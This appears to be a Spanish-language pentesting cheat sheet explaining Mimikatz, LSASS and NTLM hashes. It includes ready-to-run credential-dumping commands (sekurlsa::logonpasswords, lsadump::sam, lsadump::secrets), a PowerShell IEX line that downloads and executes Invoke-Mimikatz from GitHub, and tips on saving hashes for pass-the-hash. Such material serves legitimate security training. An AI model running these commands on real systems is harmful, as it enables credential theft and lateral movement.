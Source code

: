 # Mimikatz 

Tags: #Mimikatz #Windows  #LSASS

Mimikatz es una herramienta de seguridad de código abierto desarrollada por Benjamin Delpy (gentilkiwi), ampliamente reconocida en la comunidad de ciberseguridad. Es comúnmente empleada en actividades de Red Teams y evaluaciones de seguridad en sistemas Windows. Su objetivo principal es analizar y aprovechar diversas vulnerabilidades de seguridad en este sistema operativo, siendo especialmente conocida por su capacidad para recuperar contraseñas en texto plano, hashes NTLM y tickets Kerberos directamente desde la memoria. Además, permite realizar técnicas como pass-the-hash, pass-the-ticket y generar tickets Kerberos dorados o plateados, lo que resulta invaluable para movimientos laterales dentro de entornos Active Directory (AD).

Dentro de la sesión de Meterpreter usaremos la extensión de Kiwi para dumpear passwords. Pero debemos de ser 'NT Authority\\System'

# LSASS

El servicio Local Security Authority Subsystem Service (LSASS) en sistemas operativos Windows es crucial para la administración de la política de seguridad y maneja la autenticación de usuarios en el sistema local. Para un pentester, el entendimiento profundo de LSASS y cómo interactúa con los componentes de seguridad de Windows es fundamental para la evaluación de la postura de seguridad de un sistema y la ejecución de ciertas formas de ataques. Aquí hay varios aspectos de LSASS que son de especial interés:

```bash 
# Función y Rol de LSASS

- Autenticación: LSASS es responsable de la autenticación de usuarios para las sesiones de inicio de sesión en una computadora.
- Creación de Tokens: Cuando se autentica a un usuario, LSASS genera un "token de acceso" que contiene los derechos y privilegios del usuario.
- Almacenamiento de Credenciales: En el proceso de LSASS, las credenciales, como hashes de contraseñas y tickets Kerberos, son almacenados en la memoria.
    

# Ataques y Tácticas Asociadas con LSASS
- Dumping de Credenciales: Las herramientas de extracción de credenciales como Mimikatz explotan el acceso a LSASS para obtener hashes de contraseñas y tickets de autenticación.
- Pass-the-Hash / Pass-the-Ticket: Las credenciales extraídas pueden ser usadas para realizar estos ataques, permitiendo a los atacantes autenticarse como otro usuario sin conocer la contraseña en texto claro.
- Inyección de Código: Los atacantes pueden intentar inyectar código malicioso en el proceso LSASS para interceptar credenciales o elevar privilegios.
    

Técnicas de Protección y Evasión
- Protección de Memoria: Los pentesters deben estar al tanto de las características como Credential Guard que protegen la memoria de LSASS.
- Detección de Anomalías: La manipulación de LSASS puede disparar alertas en soluciones de detección de intrusiones y en los sistemas de protección contra malware.
- Técnicas de Evasión: Para evitar la detección, los pentesters pueden necesitar usar técnicas de evasión o desarrollar nuevas herramientas que no estén firmadas por firmas de AV.
```

## Hash NTLM

```bash 
El hash NTLM (NT LAN Manager) es una función hash utilizada por Microsoft para almacenar contraseñas de usuario. Es un método de cifrado que ha sido utilizado en varios protocolos de autenticación de Microsoft a lo largo de los años, incluidos los protocolos de autenticación de red como NTLMv1 y NTLMv2.

Características y detalles sobre el hash NTLM:

1. Forma de Creación: El hash NTLM se crea tomando la contraseña del usuario, convirtiéndola a Unicode y luego aplicando una función hash MD4.
    
2. No tiene SALT: A diferencia de otros métodos de almacenamiento de contraseñas, el hash NTLM no utiliza un "salto" (valor aleatorio agregado para hacer que el hashing sea más seguro). Esto lo hace vulnerable a ataques de fuerza bruta y a ataques de tabla arco iris, donde los atacantes usan tablas precomputadas para buscar rápidamente el valor original de un hash.
    
3. Uso en Protocolos: Aunque NTLM ha sido reemplazado en gran medida por métodos más seguros como Kerberos en entornos modernos de Active Directory, todavía se encuentra en muchas redes debido a la retrocompatibilidad o configuraciones heredadas.
    
4. Vulnerabilidades: Debido a sus debilidades inherentes y la falta de características de seguridad modernas, NTLM es susceptible a una variedad de ataques, como el mencionado ataque de tabla arco iris, ataques de relevo NTLM, y otros.
    
5. Recomendación: Debido a las debilidades conocidas asociadas con NTLM, se recomienda deshabilitar su uso siempre que sea posible, en favor de protocolos de autenticación más seguros como Kerberos.
```

## Extracción de credenciales con binario

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```bash 
❯ net user                            # Miramos todos los usuarios existentes y sus grupos
❯ net user /domain                    # Identificar los usuarios del dominio
```

```powershell
# Ejecutar Mimikatz como 'Administrador'
❯ .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit
```

```powershell
❯ Invoke-mimikatz -DumpCreds          # Dumpear las credenciales locales, obtener el NTLM y hacer un PtH
❯ Invoke-mimikatz -DumpCreds -ComputerName @("comp1","comp2")
```

## Extracción de credenciales con Powershell 

```powershell 
# Descargamos el binario del repositorio
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');

# Utilizamos la funcion para ejecutar Mimikatz
❯ Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets"'
```

```bash 
1. 'privilege::debug': Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
    
2. 'token::elevate': Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
    
3. 'sekurlsa::logonpasswords': Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso LSASS (Local Security Authority Subsystem Service).

	Nota: 
	* Mirar si la 'session' = 'Service from 0', si es asi guardar toda la salida del usuario ya que se puede utilizar
	* Si al final del 'username' hay un '$' quiere decir que es un objeto de tipo computador
	* Valores importantes a guardar 'SID, Username, Domain, NTLM, SHA1'
    
4. 'lsadump::sam': Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.

	Nota: 
	* Guardar los hashes 'NTLM' del usuario 'Administrator'
    
5. 'lsadump::secrets': Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.
```
